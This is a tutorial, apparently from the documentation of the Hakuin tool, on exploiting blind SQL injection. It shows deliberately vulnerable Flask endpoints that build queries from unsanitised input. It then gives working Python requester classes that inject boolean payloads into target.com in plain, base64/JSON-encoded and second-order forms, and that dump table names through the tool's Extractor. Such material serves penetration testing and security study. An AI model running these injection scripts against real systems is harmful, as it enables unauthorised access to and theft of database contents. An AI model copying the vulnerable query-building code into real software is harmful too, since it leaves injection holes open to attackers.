 In this tutorial, we introduce Hakuin's most common features and show you how to use it to handle a variety of challenges you may encounter while exploiting BSQLI.


#### Basic Concepts
Consider a simple Flask application with the following endpoint:
```python
@app.route('/users')
def users():
    name = request.args['name']
    query = f'SELECT * FROM users WHERE name="{name}"'
    
    with DB.connect() as conn:
        user = conn.execute(text(query)).fetchone()[0]

    if user:
        return 'found', 200
    return 'oops', 404
```

The `name` parameter is not sanitized, so the endpoint is vulnerable to BSQLI.

To exploit the vulnerability, you need to instruct Hakuin on how to inject its queries. This is done by deriving the `Requester` class and overriding the `request` method. Aside from injecting queries, the method must determine whether they resolved to `True` or `False`.
```python
from hakuin import Requester

class SimpleRequester(Requester):
    async def request(self, query, ctx):
        # inject the query
        payload = query.render(ctx)
        url = f'http://target.com/users?search=XXX" OR ({payload}) --'
        async with aiohttp.request('GET', url) as resp:
            # determine the query result
            return resp.status == 200
```

Pay attention to the glue code in `search=XXX" OR ({payload})`. The`XXX"` part escapes the string literal in `WHERE name="{name}"`, the `--` turns the extra `"` into a comment to avoid breaking the SQL syntax, and the `OR ({payload})` ensures the SQL statement resolves to true if the payload is logically true and vice versa. There are many ways to glue the payload to the SQL statement, be creative!

Also, notice that there are many ways to infer the boolean result of the injected query. In the example above, we checked, whether the `resp.status == 200`, but we could just as well check whether the response includes the string `"found"`.

Now that everything is set, we can start dumping the database (DB). This is done via the `Extractor` class. The `Extractor` requires a `Requester` and the name of the DB management system (DBMS) it should generate queries for. Hakuin currently supports SQLite, MySQL, Postgres, MsSQL, and Oracle (experimental), but will soon include more engines.

Extracting table names can look like this.
```python
import asyncio
import aiohttp
from hakuin import Extractor, Requester

class SimpleRequester(Requester):
    ...

async def main():
    requester = SimpleRequester():
    ext = Extractor(requester=requester, dbms='sqlite')
    data = await ext.extract_table_names()
    print(data)

asyncio.run(main())
```

Although simple, this approach can be used to exploit most BSQLI vulnerabilities. Keep reading.


#### Transforming Payloads
Let's spice things up. Look at the endpoint bellow.
```python
@app.route('/users')
def users():
    data = request.args['data']
    data = base64.b64decode(data).decode()
    name = json.loads(data)['name']
    query = f'SELECT * FROM users WHERE name="{name}"'
    ...
```

Again, the endpoint is vulnerable, but this time the user input goes through a series of transformations before it is inserted into the SQL statement.

The challenge here is to correctly prepare the input to hit the vulnerability. An example exploit is shown below.
```python
class RequesterWithTransformations(Requester):
    async def request(self, query, ctx):
        payload = query.render(ctx)
        data = json.dumps({'name': f'XXX" OR ({payload}) --'})
        data = base64.b64encode(data.encode())
        url = f'http://target.com/users?data={data}'
        async with aiohttp.request('GET', url) as resp:
            return resp.status == 200
```



#### Higher Order Injection Vulnerabilities
Sometimes, the vulnerable endpoint is not the same as the one used to upload payloads. See these endpoints:
```python
SESSION = {
    'name': None,
}

@app.route('/register', methods=['POST'])
def register():
    SESSION['name'] = request.args['name']

@app.route('/profile')
def register():
    name = SESSION['name']
    query = f'SELECT * FROM users WHERE name="{name}"'
    
    with DB.connect() as conn:
        user = conn.execute(text(query)).fetchone()[0]

    if user:
        return 'found', 200
    return 'oops', 404
```

Here, the user provided `name` is stored on the server via the `/register` endpoint and only then it is inserted into the SQL statement via `/profile`.

This second-order vulnerability can be exploited with the following code:
```python
class SecondOrderRequester(Requester):
    async def request(self, query, ctx):
        # upload payload
        payload = query.render(ctx)
        url = f'http://target.com/register?name=XXX" OR ({payload}) --'
        async with aiohttp.request('post', url):
            pass

        # hit the vulnerable endpoint and infer the result
        url = 'http://target.com/profile'
        async with aiohttp.request('get', url) as resp:
            return resp.status == 200
```


#### More Tutorials Coming Soon
So far, we only explained how to customize the injection and inference logic, but Hakuin allows you to customize everything, even the query generation and extraction logic. We will cover these topics soon.

Additionally, we are writing a high-level overview of the optimization methods used by Hakuin under the hood. The document will be published once ready. Stay tuned.